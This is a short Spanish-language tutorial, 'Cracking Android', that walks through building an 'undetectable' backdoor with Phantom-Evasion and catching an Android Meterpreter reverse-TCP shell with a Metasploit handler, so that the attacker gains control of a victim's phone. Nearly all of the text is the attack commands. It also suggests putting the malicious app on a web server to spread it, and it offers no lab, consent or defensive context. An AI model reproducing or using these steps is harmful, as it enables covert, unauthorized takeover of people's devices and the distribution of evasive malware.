


## Cracking Android

<br>

<p align="center">

</p>

<br>

En este articulo usaremos Metasploit Framework y Phantom-Evasion para acceder al dispositivo móvil.

<br>

## Creando un archivo .exe malicioso


Para crear el ejecutable usaremos **Phantom-Evasion** que es un script que sirve para crear backdoors indetectables:

```
git clone https://github.com/oddcod3/Phantom-Evasion.git

cd Phantom-Evasion

chmod u+x phantom-evasion.py

python3 phantom-evasion.py
```

<br>

<p align="center">

</p>

<br>

Seleccionaremos la opción 3, luego la opción 1 y enter, en LHOST ingresaremos la IP del atacante, en LPORT 4444 y por ultimo ingresaremos Y

Luego de esto tendremos nuestro backdoor generado ahora lo usaremos en el dispositivo victima.

Ahora iniciaremos msfconsole para poder conectarnos a la pc victima:

```
msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST <TU IP>

set LPORT 4444

exploit
```

Como podemos observar hemos conseguido entrar al dispositivo movil. 



**NOTA:** La aplicación maliciosa podemos subirla a un servidor web y compartir desde el servidor.

**Creditos:** https://github.com/oddcod3/Phantom-Evasion